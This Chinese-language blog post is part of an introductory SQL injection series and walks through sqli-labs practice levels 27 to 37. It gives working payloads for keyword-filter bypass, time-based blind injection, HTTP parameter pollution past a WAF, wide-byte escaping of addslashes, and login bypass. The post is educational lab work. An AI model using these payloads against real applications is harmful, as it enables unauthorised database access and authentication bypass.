 ```yaml
---
layout: post
title: "「SQL注入入门篇」SQL注入（十三）"
subtitle:   "为什么我是web安全菜鸡啊！！！"
date: 2016-11-10 12:00:00
author:     "许大仙"
tags:
    - web安全
---
```


<h2>Less-27 &amp; Less-27a</h2>
<h3>Fuzz</h3>
<pre class="lang:tsql decode:true">?id=uniunionon1'</pre>
<blockquote>
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''union1'' LIMIT 0,1' at line 1
</blockquote>

<pre class="lang:tsql decode:true">?id=selselectect1'</pre>
<blockquote>
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
</blockquote>

<pre class="lang:tsql decode:true">?id=sElect1'</pre>
<blockquote>
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''sElect1'' LIMIT 0,1' at line 1
</blockquote>

<h3>Payload</h3>
<pre class="lang:tsql decode:true">?id=0'%0auniunionon%0asElect%0a1,2,3%0aor%0a'1'='1</pre>
Less-27a同理，但换成了盲注，闭合方式变成了双引号

<pre class="lang:tsql decode:true">?id=0"%0auniunionon%0asElect%0aversion(),database(),3%0aand%0asleep(10)%0aor%0a"1"="1
</pre>

<h2>Less-28 &amp; Less-28a</h2>
<h3>Fuzz</h3>
<pre class="lang:tsql decode:true ">?id=1')%0aor%0a('1')=('1</pre>
是括号和引号闭合的，不知道为啥这题变成了盲注。明明应该是有回显注入的 =，=

<h3>Payload</h3>
<pre class="lang:tsql decode:true ">id=0%27)%a0union%a0select%a01,group_concat(email_id),3%a0from%a0emails%a0
where%a0(%271%27=%271</pre>

<h2>Less-29 &amp; Less-30</h2>
Bypass a waf

<h2>Fuzz</h2>
这个比较诡异了，一开始并没有看到防火墙的存在，但去分析了一下源码发现原来是我打开姿势不正确……

一直都是为了图方便用/Less-29/?id=1在搞，但是这个题目是想让你用/Less-29/login.php?id=1

首先可以看到当id=1的时候是正常的，但当我们输入了一个引号的时候就被“世界上最好的防火墙”拦下来了

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_waf.png" />

很容易发现各种特殊符号都被拦截下来了，貌似只能输入数字

<h2>WAF</h2>
很诡异的是查的资料都是JSP的WAF，而我的源码文件夹只有PHP文件，并且没有WAF的痕迹，在看完源码之后发现了一处

<pre class="lang:php decode:true">$id1=java_implimentation($qs);&lt;br&gt;</pre>
于是去其他地方翻，终于翻到了JSP的WAF。其实我现在做的这个练习是用PHP重写的，只是在PHP里面重现了JSP才会涉及的漏洞

<pre class="lang:java decode:true ">&lt;%
    String id = request.getParameter("id");
    String qs = request.getQueryString();

    if(id!=null)
    {
        if(id!="")
        {
            try
            {
                String rex = "^\\d+$";
              /**
                *这里的正则表达式有点绕，第一个反斜线其实是放在字符串里面转义的，
                *也就是说真正的表达式应该是^\d+$，^是开始位置，$是结束位置。
                *意思是匹配所有的数字
                */
                
                Boolean match=id.matches(rex);
                // 这里开始判断，如果输入的是纯数字，则放行，略坑啊
                if(match == true)
                {
                    URL sqli_labs = new URL("http://localhost/sqli-labs/Less-29/index.php?"+ qs);
                    URLConnection sqli_labs_connection = sqli_labs.openConnection();
                    BufferedReader in = new BufferedReader(
                                            new InputStreamReader(
                                            sqli_labs_connection.getInputStream()));
                    String inputLine;
                    while ((inputLine = in.readLine()) != null)
                        out.print(inputLine);
                    in.close();
                }
                else
                {
                    response.sendRedirect("hacked.jsp");
                }
            }
            catch (Exception ex)
            {
                out.print("&lt;font color= '#FFFF00'&gt;");
                out.println(ex);
                out.print("&lt;/font&gt;");                
            }
            finally
            {
                
            }
        }
</pre>

<h3>HTTP Parameter Pollution</h3>
这里涉及到了HPP漏洞（HTTP参数污染）

当我们为HTTP提交多个重名的参数时，不同的服务器将对他们做出不同的解析。jsp页面会只取第一个参数带入，而php页面则会只取最后一个参数带入。

我们看下面的两个实验结果（JSP的是我随便找的一个页面2333）

JSP:

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_jsp_test1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_jsp_test2.png" />

PHP:

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_php_test1.png" />

<img src="http://oc42vgpoj.bkt.clouddn.com/less29_php_test2.png" />
我们分析可知，WAF是用JSP写的（相当于JSP吧），于是只有输入的第一个参数会被检测，而PHP里面会执行的则是最后一个参数，用这种方法能够绕过WAF

<h3>Payload</h3>
<pre class="lang:tsql decode:true">?id=1&amp;id=-1' union select 1,database(),version() +--+</pre>
<img src="http://oc42vgpoj.bkt.clouddn.com/less29_bypass.png" />
通关

Less-30同理，不过换成了盲注和双引号闭合

<pre class="lang:tsql decode:true ">?id=1&amp;id=1" or 1=1 +--+</pre>
<h2>Less-32 &amp; Less-33</h2>
Multi-bytes &amp; Bypass addslashes

<h3>Fuzz</h3>
在输入?id=1'后发现我们的单引号被加了一个反斜杠，转义了，不能实现他的功能。没有单引号我们无法闭合，所以需要把单引号放出来。

<h3>Multi-bytes</h3>
这一节其实在讲宽字节注入，首先说什么是宽字节。

在ASCII码对应的128个字符，每个字符只占1字节。但世界上的语言众多，存在很多无法用1个字节描述的符号，这些符号会占用多个字节。比如UTF-16编码的符号，就占用2字节。

而在addslashes()的判断过程中，只会一个字符一个字符的比对，如果存在处于黑名单的字符，就加上一个反斜杠。比如?id=1'送入判断方法中时，1会被放过，而'会被添加一个反斜杠，变成了1\'。在十六进制编码中，也就是把%31%27变成了%31%5c%27。

当我们使用宽字节如%bf时，则是将%bf%27转化成%bf%5c%27。在MySQL中，可以接受宽字节的字符，于是会把%bf和%5c看成一个宽字节字符，于是就变成了(%bf%5c)(%27)。单引号被释放出来了

<h3>Payload</h3>
<pre class="lang:tsql decode:true ">?id=0%bf' union select 1,2,3 +--+</pre>
<h2>Less-34</h2>
Post类型的宽字节注入，同理

<h3>Payload</h3>
<pre class="lang:default decode:true ">uname=admin+%df%27 or 1=1 # &amp;passwd=123&amp;submit=Submit</pre>
<h2>Less-35</h2>
就！是！个！坑！根本不需要单引号

<h2>Less-36</h2>
同理

<h2>Less-37</h2>
<pre class="lang:tsql decode:true  ">uname=1%bf' or 1=1 # &amp;passwd=1&amp;submit=Submit</pre>
&nbsp;